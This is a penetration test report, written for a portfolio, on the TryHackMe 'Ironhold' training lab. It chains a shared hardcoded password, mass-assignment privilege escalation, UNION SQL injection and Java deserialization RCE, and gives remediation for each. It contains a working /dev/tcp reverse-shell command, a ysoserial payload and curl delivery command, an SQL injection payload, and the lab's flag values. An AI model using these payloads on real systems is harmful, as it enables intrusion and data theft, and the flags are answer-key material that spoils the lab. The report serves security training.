# Web Application Penetration Test Report

## Ironhold Correctional Facility Management System

| | |
|---|---|
| **Target** | Ironhold Facility Management System (`ironhold.thm` / `10.112.165.90:8080`) |
| **Assessment Type** | Authenticated & Unauthenticated Web Application Penetration Test |
| **Environment** | Isolated training lab (TryHackMe — *Ironhold*), used here to demonstrate professional assessment methodology and reporting |
| **Tester** | [Your Name] — Junior Penetration Tester |
| **Testing Window** | October 2026 |
| **Tools Used** | Nmap, Burp Suite, cURL, ysoserial, Netcat, manual source code review |
| **Classification** | Confidential — For Portfolio / Interview Purposes |

---

## Table of Contents

1. Executive Summary
2. Scope of Engagement
3. Methodology
4. Summary of Findings
5. Attack Chain Overview
6. Detailed Findings
7. Overall Risk Rating
8. Conclusion & Recommendations
9. Appendix A — Tools Used
10. Appendix B — Proof-of-Exploitation Markers (Flags)

---

## 1. Executive Summary

A web application penetration test was performed against the Ironhold Facility Management System, a Spring Boot/Thymeleaf application used by a (fictional) correctional facility to manage inmate records, visitation scheduling, commissary accounts, internal staff messaging, and incident reporting.

The assessment was conducted under a **source-code-assisted (hybrid) model**: in addition to standard black-box reconnaissance, the tester was provided with the application's full source code, replicating a realistic scenario in which a former employee had exfiltrated the codebase prior to departure. This mirrors a common real-world risk vector — source code leakage via disgruntled insiders, compromised repositories, or misconfigured CI/CD pipelines.

The engagement identified **four distinct vulnerabilities** which, when chained together, allowed an attacker starting with **zero legitimate privileges** to achieve **full remote code execution on the underlying host**. The complete attack path is as follows:

> Shared/hardcoded staff credentials → low-privilege OFFICER session → privilege escalation to WARDEN via a Mass Assignment flaw → administrative access → Insecure Deserialization → Remote Code Execution → full host compromise.

Given the severity and ease of exploitation of this chain, the overall engagement risk is rated **Critical**. All findings are detailed in Section 6, along with supporting evidence, root cause analysis, and remediation guidance.

---

## 2. Scope of Engagement

| In Scope | Details |
|---|---|
| Web Application | `http://ironhold.thm:8080` (Spring Boot 2.7.18 / Thymeleaf / H2 database) |
| Source Code | Full application source (Java/Spring MVC), provided to simulate an insider-leak scenario |
| Testing Type | Network reconnaissance, authenticated & unauthenticated web application testing, source code review |

**Out of scope:** Denial-of-Service testing, social engineering, physical security, and any infrastructure outside the single target host.

**Rules of Engagement:** Testing was performed in an isolated lab environment with no production data or real users. All exploitation was limited to retrieving designated proof-of-exploitation markers.

---

## 3. Methodology

The assessment followed a standard four-phase web application testing methodology, broadly aligned with the OWASP Testing Guide and PTES:

1. **Reconnaissance** — Network-level service discovery and passive information gathering from publicly accessible, unauthenticated pages.
2. **Source Code Review** — Static analysis of the provided codebase to identify authentication logic, access-control boundaries, and data-handling patterns prior to dynamic testing.
3. **Exploitation** — Dynamic testing against each identified weakness, using Burp Suite for request manipulation and custom payload generation for deserialization attacks.
4. **Post-Exploitation** — Privilege escalation, administrative access, and verification of full remote code execution, followed by enumeration to confirm the depth of compromise.

---

## 4. Summary of Findings

| ID | Finding | Severity | CVSS 3.1 | Affected Component |
|----|---------|----------|----------|---------------------|
| IH-01 | Insecure Deserialization Leading to Remote Code Execution | **Critical** | 7.1 (High base; Critical in context — see 6.1) | `/admin/import` (`ImportExportController`) |
| IH-02 | Privilege Escalation via Mass Assignment (HTTP Parameter Pollution) | **Critical** | 9.6 | `/profile/update` (`ProfileController`) |
| IH-03 | SQL Injection (UNION-based) | **Medium–High** | 6.5 (Business impact: High) | `/inmates/search` (`InmateController`) |
| IH-04 | Use of Shared / Hardcoded Staff Credentials | **Medium** | 5.3 | Staff authentication (`DataSeeder`) |

Findings are presented below in order of exploitation severity rather than discovery order, as is standard reporting practice.

---

## 5. Attack Chain Overview

```
[Unauthenticated]
      │   leaked source code review → shared OFFICER password (IH-04)
      ▼
[OFFICER session]
      │   HTTP Parameter Pollution on /profile/update → role=WARDEN (IH-02)
      ▼
[WARDEN session]
      │   /admin/import accepts attacker-controlled serialized Java objects (IH-01)
      ▼
[Remote Code Execution as "appuser"]
      │   filesystem enumeration
      ▼
[Full host compromise]
```

A fifth, independent finding (IH-03, SQL Injection) does not sit on the critical path above but independently exposes sensitive internal-affairs case data that is not reachable through any legitimate page in the application.

---

## 6. Detailed Findings

### 6.1 IH-01 — Insecure Deserialization Leading to Remote Code Execution

**Severity:** Critical | **CVSS 3.1 Vector:** `AV:N/AC:L/PR:H/UI:N/S:U/C:H/I:H/A:H` (Base Score 7.1)
> *Note: the CVSS base score reflects the `PR:H` (Warden-level) prerequisite. When chained with IH-02, this prerequisite is trivially satisfied by any unauthenticated user, making the practical, end-to-end risk of this finding Critical.*

**Affected Endpoint:** `POST /admin/import`

**Description**

The administrative data-import feature accepts a Base64-encoded request body and passes it directly to Java's `ObjectInputStream.readObject()` without any type restriction, allow-listing, or integrity check:

```java
@PostMapping(value = "/admin/import", consumes = MediaType.ALL_VALUE)
@ResponseBody
public ResponseEntity<String> importData(@RequestBody String body) {
    byte[] decoded = Base64.getDecoder().decode(body.trim());
    try (ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(decoded))) {
        Object restored = ois.readObject();
        return ResponseEntity.ok("Batch accepted: " + restored.getClass().getSimpleName());
    } catch (Exception e) {
        ...
    }
}
```

Native Java deserialization of untrusted input is a well-documented, critical-impact vulnerability class: if a "gadget chain" is reachable on the classpath, an attacker can craft a serialized object graph that executes arbitrary code upon deserialization.

Source code review of `pom.xml` confirmed that `commons-collections` version `[3.2, 3.2.2)` was included as a dependency — a library with publicly known, weaponized gadget chains (e.g. `CommonsCollections1`/`CommonsCollections6`) available in the `ysoserial` toolkit:



**Proof of Concept**

```bash
# 1) Start a listener
nc -lvnp 4444

# 2) Base64-encode the reverse-shell command
echo -n 'bash -i >& /dev/tcp/<attacker_ip>/4444 0>&1' | base64 -w0
# YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEzMy41Ni80NDQ0IDA+JjE=

# 3) Generate a malicious serialized payload with ysoserial
java --add-opens=java.base/java.util=ALL-UNNAMED \
     --add-opens=java.base/java.lang=ALL-UNNAMED \
     --add-opens=java.base/java.lang.reflect=ALL-UNNAMED \
     -jar ysoserial-all.jar CommonsCollections6 \
     'bash -c {echo,<base64_cmd>}|{base64,-d}|{bash,-i}' > payload.bin

# 4) Base64-encode the payload and send it to the vulnerable endpoint
base64 -w0 payload.bin > payload.b64
curl -s -b cookies.txt -X POST http://10.112.165.90:8080/admin/import \
     -H "Content-Type: text/plain" --data-binary @payload.b64
```



The request returned `Batch accepted: HashSet`, and a reverse shell was received as the `appuser` account inside the application container. A subsequent filesystem search confirmed access to the host's protected flag file, demonstrating full code execution outside the application's intended trust boundary:

```bash
appuser@f62a3262ffed:/app$ find / -iname "*flag*" 2>/dev/null
/opt/ironhold/flag.txt
appuser@f62a3262ffed:/app$ cat /opt/ironhold/flag.txt
THM{0v3r_th3_w4ll_4nd_g0n3}
```



**Impact**

Complete compromise of the application server. An attacker can read, modify, or exfiltrate any data accessible to the application process, pivot to internal network segments, or establish persistence on the host.

**Remediation**

- Do not deserialize data from untrusted sources using native Java serialization. Replace with a safe, schema-validated format such as JSON (e.g., Jackson with explicit type allow-listing).
- If native deserialization cannot be avoided, apply a strict class allow-list (`ObjectInputFilter`, Java 9+) and remove unused, gadget-capable libraries (e.g. upgrade or drop `commons-collections`).
- Apply the principle of least privilege to the application's runtime user and container to limit the blast radius of any future code-execution bug.

---

### 6.2 IH-02 — Privilege Escalation via Mass Assignment (HTTP Parameter Pollution)

**Severity:** Critical | **CVSS 3.1 Vector:** `AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:N` (Base Score 9.6)

**Affected Endpoint:** `POST /profile/update`

**Description**

The staff profile-update form only exposes `Full Name`, `Email`, and `Badge Number` fields to the user:



However, the backing controller binds the entire `Staff` entity from the incoming request via `@ModelAttribute`, including the `role` field, which is never validated against the fields actually rendered on the form:

```java
@PostMapping("/profile/update")
public String update(@ModelAttribute Staff staff, HttpSession session) {
    Staff current = staffRepository.findByUsername(SessionUtil.currentUsername(session));
    current.setFullName(staff.getFullName());
    current.setEmail(staff.getEmail());
    if (staff.getBadgeNumber() != null && !staff.getBadgeNumber().isBlank()) {
        current.setBadgeNumber(staff.getBadgeNumber());
    }
    if (staff.getRole() != null && !staff.getRole().isBlank()) {
        current.setRole(staff.getRole());
    }
    staffRepository.save(current);
    return "redirect:/profile";
}
```

This is a textbook **Mass Assignment (Excessive Data Exposure / Over-posting)** vulnerability: any parameter matching a property on the bound object is accepted and persisted, regardless of whether it is presented to the user in the UI.

A superficial client-side/regex filter blocked the characters `'` and `=` inside the `email` field — an attempt to prevent naive SQL-injection-style payloads — but this control was trivially bypassed by submitting a benign value through the browser and then modifying the raw HTTP request body in Burp Suite's Repeater/Proxy before it reached the server, appending an additional `role=warden` parameter:

```
email=j.reyes@ironhold.example'&role=warden
```

**Proof of Concept**

1. Submit the update form normally with an unfiltered placeholder value.
2. Intercept the resulting `POST /profile/update` request in Burp Suite.
3. Append `&role=warden` to the raw request body and forward it.
4. Reload `/profile` — the account's role is now `WARDEN`.



Because `/admin/**` is gated solely by role-based access control (`WardenInterceptor`), this single parameter addition is sufficient to unlock the entire administrative surface of the application, including the data-import feature described in IH-01.

**Impact**

Complete vertical privilege escalation from the lowest-privileged authenticated role to the highest-privileged role in the application, with no additional authentication step. This directly enables access to the administrative functions described in IH-01, collapsing the engagement's overall risk to Critical.

**Remediation**

- Never bind untrusted request parameters directly onto persistence/domain entities. Use dedicated, explicit Data Transfer Objects (DTOs) for each form that only contain the fields the form is intended to edit.
- Enforce server-side authorization checks on privileged fields (e.g. `role`) independent of what is rendered client-side; role changes should require a separate, explicitly audited administrative action.
- Apply Spring's allow-list binding controls (e.g. `@InitBinder` with `setAllowedFields`) as defense-in-depth even where DTOs are used.

---

### 6.3 IH-03 — SQL Injection (UNION-based)

**Severity:** Medium (CVSS) / High (Business Impact) | **CVSS 3.1 Vector:** `AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N` (Base Score 6.5)
> *Business impact override: this finding exposes confidential Internal Affairs case data that is not accessible through any legitimate application page, which independently justifies escalating the effective severity to High.*

**Affected Endpoint:** `GET /inmates/search?q=`

**Description**

The inmate search feature builds its SQL query by direct string concatenation of the user-supplied `q` parameter:

```java
String sql = "SELECT id, name, block FROM inmates WHERE name = '" + q + "'";
results = jdbcTemplate.queryForList(sql);
```

No parameterization, escaping, or input validation is applied.

**Proof of Concept**

Submitting a single unescaped quote confirmed the injection point by breaking query syntax:



Source code review of `CaseFile.java` revealed that an internal, UI-inaccessible table — `case_files` — existed in the same database schema:

```java
@Entity
@Table(name = "case_files")
public class CaseFile { ... }
```



Using this knowledge, a UNION-based payload matching the three columns returned by the vulnerable query (`id`, `name`, `block`) was crafted to pivot into the `case_files` table:

```bash
curl -G 'http://10.112.165.90:8080/inmates/search' \
     --data-urlencode "q=' UNION SELECT id, summary, status FROM case_files WHERE '1'='1"
```

The response rendered the contents of an Internal Affairs case record directly in the search results page:



**Impact**

Unauthorized disclosure of confidential records that have no corresponding UI and are not intended to be accessible to any authenticated staff role from within the application. Depending on backend database privileges, UNION-based injection of this kind can frequently be extended to full database enumeration (schema, other tables, credentials) or, where DBMS features allow, further escalation.

**Remediation**

- Replace all string-concatenated SQL with parameterized queries / prepared statements (`JdbcTemplate` fully supports this via `?` placeholders and typed arguments).
- Apply least-privilege database accounts per feature; the search feature should not have `SELECT` access to tables it does not need (note: the codebase already demonstrates awareness of this pattern elsewhere via a restricted `ironhold_lookup` account — see IH-04 observations — but it was not applied consistently to this endpoint).
- Add input validation and a Web Application Firewall (WAF) rule set as defense-in-depth, not as a substitute for parameterized queries.

---

### 6.4 IH-04 — Use of Shared / Hardcoded Staff Credentials

**Severity:** Medium | **CVSS 3.1 Vector:** `AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N` (Base Score 5.3)

**Affected Component:** Staff account provisioning (`DataSeeder.java`)

**Description**

Review of the application's seed data logic revealed that all four OFFICER-level staff accounts are provisioned with an identical, hardcoded password hash:

```java
String fillerHash = passwordEncoder.encode("IronholdStaff2026!");
String[][] officers = {
    {"j.reyes", "Officer J. Reyes", "O-104"},
    {"m.chen", "Officer M. Chen", "O-118"},
    {"a.osei", "Officer A. Osei", "O-129"},
    {"l.bianchi", "Officer L. Bianchi", "O-142"},
};
```



This finding was compounded by the engagement's threat model (a leaked source-code repository), but shared static credentials represent a risk independent of that scenario: password reuse across accounts means a single compromised credential — via phishing, credential stuffing, or, as modeled here, source disclosure — grants access to every officer account simultaneously.

The application's own `/dashboard` notice board further normalizes risky credential hygiene at an operational level, referring staff to a shared "kiosk" login during shift handovers rather than individual, revocable accounts:



**Impact**

Any party with access to the leaked source code — or who successfully guesses, phishes, or brute-forces one officer credential — gains authenticated access as every officer account. As demonstrated in IH-02, authenticated OFFICER access alone is sufficient to pivot to full administrative compromise.

**Remediation**

- Provision each staff account with a unique, randomly generated password at creation time, distributed through a secure out-of-band channel, with mandatory rotation on first login.
- Eliminate shared "kiosk" or "shift" accounts; if a shared terminal is operationally required, authenticate the terminal itself separately from the individual staff member's identity (e.g. badge/PIN + shared-terminal session binding), and log actions against the individual, not the shared account.
- Treat the source code repository as sensitive infrastructure: no secrets, credentials, or credential-generation logic should ever be committed in plaintext, regardless of repository visibility.

---

## 7. Overall Risk Rating

**Critical.**

While individual findings range from Medium to Critical in isolation, the combination of IH-04 → IH-02 → IH-01 constitutes a complete, low-effort, unauthenticated-to-RCE attack chain. No specialized access or insider position is required beyond knowledge of the (leaked) source code — information that, in a real-world equivalent scenario, could equally originate from a misconfigured public repository, a compromised CI/CD pipeline, or a departing employee, as modeled in this engagement's scenario.

---

## 8. Conclusion & Recommendations

This engagement illustrates how several individually moderate design flaws — shared credentials, insufficient input binding controls, unparameterized queries, and unsafe deserialization — compound into a critical, full-compromise attack path when reachable in sequence. Beyond the specific remediation steps listed per finding, the assessor recommends the following structural improvements:

1. **Adopt secure-by-default data binding.** Replace all `@ModelAttribute`/entity-binding patterns in form-handling controllers with explicit DTOs.
2. **Enforce parameterized data access uniformly.** The codebase already correctly uses JPA repositories in most places; the one hand-rolled, concatenated query identified in IH-03 should be brought in line with the rest of the codebase.
3. **Remove native Java deserialization from any network-reachable code path.** This is the single highest-impact fix in this report.
4. **Introduce credential hygiene controls** (unique passwords, rotation, elimination of shared accounts) and treat source code confidentiality as a control in its own right, not an afterthought.
5. **Re-test after remediation.** A follow-up assessment is recommended to confirm that fixes do not introduce regressions (e.g. overly permissive DTOs, incomplete query parameterization).

---

## Appendix A — Tools Used

| Tool | Purpose |
|---|---|
| Nmap | Network service discovery and fingerprinting |
| Burp Suite | HTTP request interception and manipulation (Proxy/Repeater) |
| cURL | Scripted HTTP requests for SQL injection and deserialization PoCs |
| ysoserial | Generation of malicious Java serialized gadget-chain payloads |
| Netcat | Reverse shell listener |
| Manual source code review | Identification of logic flaws not easily found via black-box testing alone |

## Appendix B — Proof-of-Exploitation Markers (Flags)

This assessment was conducted in a TryHackMe training lab, which uses unique string markers ("flags") in place of client-confidential data to objectively verify successful exploitation of each finding.

| Finding | Marker Location | Value |
|---|---|---|
| IH-04 (Shared Credentials) | Officer dashboard notice | `THM{k10sk_c0nsol3_unl0ck3d}` |
| IH-03 (SQL Injection) | `case_files` table, exfiltrated via UNION SELECT | `THM{c4s3_f1l3_pull3d_via_uni0n}` |
| IH-02 (Mass Assignment / Privilege Escalation) | Admin "Cellblock Door Control" panel | `THM{w4rd3n_b4dg3_f0rg3d}` |
| IH-01 (Insecure Deserialization / RCE) | `/opt/ironhold/flag.txt` on the host filesystem | `THM{0v3r_th3_w4ll_4nd_g0n3}` |



---

*End of report.*
